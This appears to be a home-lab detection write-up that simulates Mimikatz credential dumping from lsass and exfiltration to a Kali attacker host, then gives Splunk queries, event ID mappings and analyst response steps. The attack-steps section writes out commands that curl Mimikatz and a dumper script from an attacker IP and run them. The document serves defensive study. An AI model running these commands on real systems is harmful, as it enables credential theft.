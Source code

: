 

# Detection Usecase 5 : Credential Dumping and Exfiltration


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a mimikatz and a suspicious ps1 file,  
then executed the ps1 file which attempt to access lsass.exe process and exfiltrate the data and send to attacker system using HTTPS.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and downloaded mimikatz along with a Powershell Script.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/mimikatz.exe -o mimikatz.exe
```
```
curl http://192.168.0.106/dumper.ps1 -o ![dumper.ps1](<scripts/dumper.ps1>)
```
2) Then executed the following command to capture a lsass data which contain sensitive passwords.  
```
powershell .\dumper.ps1
``` 
3) Now Attacker has started a Manually created https server using python script and received the file which contain mimikatz output.  
```
python3 [server.py](<scripts/server.py>)
```  
![recieved](logs/Screenshot_2025-06-06_23_48_41.png)


 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, Python Scripts, Mimikatz.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon, Wireshark, Snort


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Security    | 4672      | Special Privilege assigned       |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Security    | 5156      | Permitted a Connection           |
| WinEventLog : Sysmon      | 11        | File Creation                    |
| WinEventLog : Security    | 4656      | Object was requested             |
| WinEventLog : Security    | 4663      | Attempt to access an Object      |
| WinEventLog : Security    | 4634      | Account logged off               |


 ******************************
 ******************************

# Detection Query / Logic:

```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 OR EventCode=4672 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11 OR EventCode=5156
```
```spl 
- Search - Lsass.exe dumping
index=* Object_Name=*lsass.exe" Process_Name="*mimikatz.exe" | table _time_, EventCode, Account_Name, Account_Domain, Accesses
```
```spl 
- Search - HTTPS Connection
index=* EventCode=3 DestinationIp="192.168.0.106" | stats count by _time, SourceIp, DestinationIp, DestinationPort, EventCode, _time
```

 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

![log1](<logs/Screenshot 2025-06-07 093058.png>)  
![log2](<logs/Screenshot 2025-06-07 094052.png>)  
![wire](<logs/Screenshot 2025-06-07 092615.png>) 

2) Then attempted to download mimikatz and a ps1 file.  

![mimi1](<logs/Screenshot 2025-06-07 094142.png>)  
![mimi2](<logs/Screenshot 2025-06-07 094153.png>)  
![net](<logs/Screenshot 2025-06-07 094446.png>)  
![snort](<logs/Screenshot 2025-06-07 092411.png>)
![dum1](<logs/Screenshot 2025-06-07 094505.png>)  
![dum2](<logs/Screenshot 2025-06-07 094515.png>)  
![wire2](<logs/Screenshot 2025-06-07 092659.png>)

3) Then Enter PowerShell and executed the ps1 file.    

![mimiexe1](<logs/Screenshot 2025-06-07 094538.png>)  
![mimiexe2](<logs/Screenshot 2025-06-07 094649.png>)  

4) The mimikatz attempt to access the Lsass.exe Process.   

![access1](<logs/Screenshot 2025-06-07 100006.png>)  
![access2](<logs/Screenshot 2025-06-07 100019.png>)


5) Then a HTTPS connection was attempted by sshuser to send data to attacker system.  

![443](<logs/Screenshot 2025-06-07 093537.png>)

 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Situation like Credentials Dumping Using Mimikatz, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Sysmon EventId=1(Downloading Of mimikatz), EventCode=11(File Creation)EventCode=4663 or 4656(Access to lsass.exe Process)) and try to correlate it with unexpected login or unusual user behavior.  
    -> Isolate the system and stop malicious processes running and disable the user account and Block the IP.  
    -> Check for any Lateral Movement activity(e.g.,Registry Modification(4657), Scheduled Tasks(4698) or Service Creation(4697)).  
    -> Secure the Lsass Process using RunAsPPL, Credential Guard, Disable Wdigest(no plaintext passwords) and Monitor lsass access by creating alerts.  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
